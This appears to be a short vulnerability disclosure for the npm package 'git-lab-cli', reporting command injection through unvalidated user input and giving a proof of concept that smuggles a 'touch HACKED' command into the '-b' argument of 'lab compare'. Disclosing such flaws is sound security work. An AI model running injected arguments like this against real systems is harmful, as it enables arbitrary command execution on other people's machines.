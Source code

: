 # Description

The `git-lab-cli` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executedading to `arbitrary command injection`

# POC

1. Check there aren't files called `HACKED` 
2. Execute the following commands in another terminal:

```bash
npm i git-lab-cli # Install affected module
lab compare -b 't; touch HACKED; #' #  Run the PoC
```
3. Recheck the files: now `HACKED` has been created
